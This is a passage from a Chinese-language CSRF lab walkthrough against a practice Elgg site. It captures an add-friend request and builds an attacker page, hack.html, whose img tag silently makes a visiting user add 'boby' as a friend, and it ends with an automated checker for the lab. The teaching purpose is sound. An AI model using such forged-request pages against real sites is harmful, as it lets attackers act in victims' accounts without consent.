 >    点击 Firefox 菜单栏中 Tools；

>	点击 LiveHttpHeader

>	勾选 Capture

>	点击 add friend

![5.1-3](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186167643?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

分析抓取到的数据包：

![5.1-4](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186206593?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1524817660&__elgg_token=f581b9c0b6fab2aa1c5b5c64a7b4cf0c
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
sudo vim /var/www/CSRF/Attacker/hack.html
```

输入下面代码：

```
<html>
<img src="http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1524817660&__elgg_token=f581b9c0b6fab2aa1c5b5c64a7b4cf0c">
</html>
```
> 注意：这里的链接根据你实际获取到的链接填写

Alice 用户访问前：

![5.1-5](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186343735?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
​	
Alice 用户访问：www.csrflabattacker.com/hack.html

![5.1-6](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186371620?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Alice 用户访问后：

![5.1-7](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186395717?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```checker
- name: check hack.html
  script: |
    #!/bin/bash
    file_name="/var/www/CSRF/Attacker/hack.html"
    ls $file_name
    grep friends $file_name
  error: hack.html不存在或者文件内容不对
```
